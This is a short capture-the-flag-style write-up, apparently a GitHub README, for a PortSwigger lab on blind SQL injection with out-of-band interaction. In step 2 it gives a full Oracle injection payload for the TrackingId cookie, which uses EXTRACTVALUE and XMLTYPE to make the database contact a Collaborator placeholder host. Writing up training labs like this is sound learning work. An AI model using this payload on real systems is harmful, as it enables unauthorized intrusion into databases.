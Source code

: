 # SQL Injection - Blind SQL injection with out-of-band interaction

## 📌 Lab Details
- **Title**: Blind SQL injection with out-of-band interaction
- **Difficulty**: Practitioner
- **Category**: SQL Injection
- **Lab URL**: https://portswigger.net/academy/labs/launch/bd885d4dca761e440e1c4056234b100f514a5ba06cb79df59a7fdb02eda2af17?referrer=%2fweb-security%2fsql-injection%2fblind%2flab-out-of-band

## 🔍 Summary
This lab demonstrates exploiting **blind SQL injection via out-of-band DNS interactions using Burp Collaborator** when there is no visible response change.

## 🛠 Steps to Solve
1. Use Burp Suite to intercept and modify the request containing the `TrackingId` cookie.
2. Modify the `TrackingId` cookie and inject the payload: `TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`.
3. Insert the **Collaborator** payload and complete the lab.

## 📖 Key Takeaways
- Blind SQLi can be exploited using **OOB techniques** when no direct response is visible.
- Oracle’s `EXTRACTVALUE` + `XMLTYPE` can be abused for OOB payloads.

## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/1ba41d6c-8a18-4fa8-8bac-3c3e4516b32f)
![image](https://github.com/user-attachments/assets/3569cbca-4e7e-40e9-8cbd-d601b6151280)
![image](https://github.com/user-attachments/assets/0cb18b94-fed0-4840-a7ee-205221429cd3)
![image](https://github.com/user-attachments/assets/fc505601-d35b-4052-903a-4a95d7e1f4d9)
